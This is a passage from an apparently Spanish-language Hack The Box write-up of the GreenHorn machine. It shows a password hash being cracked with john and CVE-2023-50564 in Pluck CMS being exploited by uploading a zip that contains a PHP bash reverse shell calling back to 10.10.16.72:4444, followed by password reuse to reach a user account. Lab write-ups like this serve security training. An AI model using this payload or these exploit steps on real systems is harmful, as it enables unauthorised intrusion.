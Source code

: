 ![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210211833.png)

vemos un hash y como decia en el anterior script es en sha512 por lo que vamos a intentar crakearlo

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-SHA512
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212025.png)

vemos la contraseña por lo que ya podemos logearnos 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212119.png)

una vez dentro vemos lo siguiente (muy parecido a la maquina mist la verdad)

si buscamos exploits sobre esta version de pluck encontramos esto

[CVE-2023-50564](https://nvd.nist.gov/vuln/detail/CVE-2023-50564)

En corto, somos capaces de instalar un módulo falso. Este módulo podría ser un archivo .zip con código PHP dentro, el cual es interpretado por el sistema. De manera que comprimimos nuestro archivo PHP previamente creado en un archivo .zip

por lo que vamos a crear la revershell

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.16.72/4444 0>&1"'); ?>
```

comprmimos el archivo:

```bash
zip rever.zip rever.php
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212545.png)

y ahora si nos vamos a http://greenhorn.htb/admin.php?action=installmodule y insertamos el .zip

pero antes nos ponemos en escucha con netcat
le damos a subir y pasado un rato

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210213608.png)

estamos dentro

verificamos el /etc/passwd y vemos un usuario juniro 
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210214048.png)

el cual su clave es la misma que habia en el hash por lo que podemos hacer un su junior 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210214143.png)
y somos junior

## root
